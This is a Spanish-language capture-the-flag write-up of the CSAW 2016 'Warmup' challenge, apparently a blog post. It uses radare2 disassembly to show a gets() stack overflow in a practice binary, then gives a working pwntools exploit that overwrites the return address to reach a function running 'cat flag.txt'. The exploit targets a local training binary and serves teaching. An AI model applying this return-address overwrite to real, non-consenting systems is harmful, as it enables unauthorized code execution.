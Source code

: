 ```yaml
---
layout: post
title: Warmup - Nightmare
tags: [ctf, rev, nightmare]
---
```


**Warmup** \\
Csaw 2016 Quals Warmup

## Análisis

**pwn checksec**:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

La información describe un binario de arquitectura amd64 de 64 bits. Tiene seguridad parcial (RELRO), carece de protección contra desbordamientos de búfer en la pila (no se encontró un "canario"), pero tiene habilitada la prevención de ejecución de código malicioso (NX). No es un ejecutable independiente de posición (no PIE), lo que podría afectar a su seguridad.

## Radare2

Abro el binario usando **radare2** para continuar con el análisis.

### Funciones

Listo las funciones encontradas en el binario.

```
[0x0040061d]> afl
[...]
0x00400520    1 42           entry0
0x004004e0    1 6            sym.imp.__libc_start_main
0x00400550    4 41           sym.deregister_tm_clones
0x00400580    4 57           sym.register_tm_clones
0x004005c0    3 28           sym.__do_global_dtors_aux
0x004005e0    4 45   -> 42   entry.init0
0x00400720    1 2            sym.__libc_csu_fini
0x00400724    1 9            sym._fini
0x004006b0    4 101          sym.__libc_csu_init
0x0040060d    1 16           sym.easy
0x004004d0    1 6            sym.imp.system
0x0040061d    1 136          main
0x004004c0    1 6            sym.imp.write
0x00400510    1 6            sym.imp.sprintf
0x00400500    1 6            sym.imp.gets
0x00400488    3 26           sym._init
0x004004f0    1 6            loc.imp.__gmon_start__
[...]
```

Entre ellas hay que destacar dos:
1. main (0x0040061d): La función principal del programa, donde comienza la ejecución.
2. sym.easy (0x0040060d): Una función llamada "easy".

### Main
```
[0x0040061d]> pdf
            ;-- rip:
┌ 136: int main (int argc, char **argv, char **envp);
│           ; var int64_t var_80h @ rbp-0x80
│           ; var int64_t var_40h @ rbp-0x40
│           0x0040061d      push rbp
│           0x0040061e      mov rbp, rsp
│           0x00400621      add rsp, 0xffffffffffffff80
│           0x00400625      mov edx, 0xa
│           0x0040062a      mov esi, str._Warm_Up__n
│           0x0040062f      mov edi, 1
│           0x00400634      call sym.imp.write
│           0x00400639      mov edx, 4
│           0x0040063e      mov esi, str.WOW:
│           0x00400643      mov edi, 1
│           0x00400648      call sym.imp.write
│           0x0040064d      lea rax, [var_80h]
│           0x00400651      mov edx, sym.easy
│           0x00400656      mov esi, 0x400751
│           0x0040065b      mov rdi, rax
│           0x0040065e      mov eax, 0
│           0x00400663      call sym.imp.sprintf
│           0x00400668      lea rax, [var_80h]
│           0x0040066c      mov edx, 9
│           0x00400671      mov rsi, rax
│           0x00400674      mov edi, 1
│           0x00400679      call sym.imp.write
│           0x0040067e      mov edx, 1
│           0x00400683      mov esi, 0x400755
│           0x00400688      mov edi, 1
│           0x0040068d      call sym.imp.write
│           0x00400692      lea rax, [var_40h]
│           0x00400696      mov rdi, rax
│           0x00400699      mov eax, 0
│           0x0040069e      call sym.imp.gets
│           0x004006a3      leave
└           0x004006a4      ret
```

La vulnerabilidad en este binario se encuentra en la última llamada a la función **sym.imp.gets** debido a que se utiliza para leer una línea de entrada sin un límite de longitud especificado por lo que se puede utilizar para sobreescribir la dirección de retorno de la función **main** y acceder a **sym.easy**.

### Easy

```
[0x0040060d]> pdf
┌ 16: sym.easy ();
│           0x0040060d      push rbp
│           0x0040060e      mov rbp, rsp
│           0x00400611      mov edi, str.cat_flag.txt
│           0x00400616      call sym.imp.system
│           0x0040061b      pop rbp
└           0x0040061c      ret
```

Se puede ver que el objetivo de esta función es ejecutar el comando "cat flag.txt" usando una llamada a **system**.

## Exploit

Lo primero que hago es poner un breakpoint al final de la función **main**. De esta forma podré calcular la diferencia entre las direcciones del input del usuario y la dirección de retorno.
```
│           0x00400699      b800000000     mov eax, 0
│           0x0040069e      e85dfeffff     call sym.imp.gets           ; char *gets(char *s)
│           0x004006a3      c9             leave
└           0x004006a4      c3             ret
[0x0040061d]> db 0x004006a4
[0x0040061d]> dc
-Warm Up-
WOW:0x40060d
>test
hit breakpoint at: 0x4006a4
```

![img](../imgs/write-ups/nightmare/warmup/warmup_1.png)

```
[0x7ffe08433220]> ? 0x7ffe08433268 - 0x7ffe08433220
int32   72
uint32  72
hex     0x48
octal   0110
unit    72
segment 0000:0048
string  "H"
fvalue  72.0
float   0.000000f
double  0.000000
binary  0b01001000
ternary 0t2200
```

Con la distancia calculada puedo realizar el exploit.

```py
from pwn import *

# Iniciar el proceso
target = process('./warmup')

payload = b"A" * 0x48 # Padding
payload += p64(0x00400611) # sobreescribir dirección de retorno con la dirección de sym.easy

target.sendline(payload)
target.interactive()
```

Al ejecutar el script, obtengo la bandera.

```
h3rshel@kali:~/Desktop/reversing$ python3 exploit.py
[+] Starting local process './warmup': pid 62190
[*] Switching to interactive mode
-Warm Up-
WOW:0x40060d
>flag{g0ttem_b0yz}
-Warm Up-
WOW:[*] Got EOF while reading in interactive
$  
```

Página original: **[Nightmare](https://guyinatuxedo.github.io/)**.


